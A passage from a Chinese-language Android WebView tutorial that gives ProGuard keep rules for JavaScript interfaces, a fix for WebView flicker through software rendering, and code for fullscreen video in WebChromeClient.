##### 6.5 WebView 混淆问题

使用proguard混淆java层代码后可能导致javascript不可用

修改`proguard-rules.pro`配置

```makefile
-keepattributes *Annotation* 
-keepattributes *JavascriptInterface*
-keep public class org.mq.study.webview.DemoJavaScriptInterface{
    public <methods>;
}
-keep public class org.mq.study.webview.webview.DemoJavaScriptInterface$InnerClass{
    public <methods>;
}
```

##### 6.6 WebView 闪烁问题

关闭WebView的硬件加速功能

```java
webView.setLayerType(View.LAYER_TYPE_SOFTWARE, null);
```

##### 6.7 Video 全屏问题

在`WebChromeClient#onShowCustomView()`方法中设置视频的播放视图全屏

```java
@Override
public void onShowCustomView(View view, CustomViewCallback callback) {
  if (view instanceof FrameLayout && fullScreenView != null) {
    this.videoViewContainer = (FrameLayout) view;
    this.videoViewCallback = callback;
    fullScreenView.addView(videoViewContainer, new ViewGroup.LayoutParams(ViewGroup.LayoutParams.MATCH_PARENT, ViewGroup.LayoutParams.MATCH_PARENT));
    fullScreenView.setVisibility(View.VISIBLE);
    isVideoFullscreen = true;
  }
}

@Override
public void onHideCustomView() {
  if (isVideoFullscreen && fullScreenView != null) {
    fullScreenView.setVisibility(View.INVISIBLE);
    fullScreenView.removeView(videoViewContainer);
    // Call back (only in API level <19, because in API level 19+ with chromium webview it crashes)
    if (videoViewCallback != null && !videoViewCallback.getClass().getName().contains(".chromium.")) {
      videoViewCallback.onCustomViewHidden();
    }
    isVideoFullscreen = false;
    videoViewContainer = null;
    videoViewCallback = null;
  }
}
```